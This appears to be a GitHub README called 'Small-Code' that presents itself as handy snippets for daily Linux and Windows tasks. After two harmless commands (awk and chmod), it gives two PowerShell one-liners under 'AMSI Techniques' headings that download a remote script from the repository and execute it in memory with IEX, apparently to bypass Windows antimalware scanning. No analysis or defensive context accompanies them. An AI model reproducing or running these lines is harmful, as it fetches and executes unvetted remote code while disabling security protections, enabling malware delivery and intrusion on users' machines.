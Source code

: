 ![alt text](https://github.com/HeeresS/Small-Code/blob/main/SmallCode.png?raw=true)
# Small-Code
Small codes that will help with daily tasks for Linux and Windows. 
### Add text to line
~~~
awk  '{print "http://" $1}' urls.txt
~~~
### Change permissions of folder (Linux)
~~~
sudo chmod +x $(find /PATH/)
~~~
## Stage One (AMSI Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageOne.ps1'); Invoke-StageOne
~~~
## Stage Two (AMSI .NET Techniques)
~~~
IEX (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/HeeresS/Small-Code/main/StageTwo.ps1')
~~~


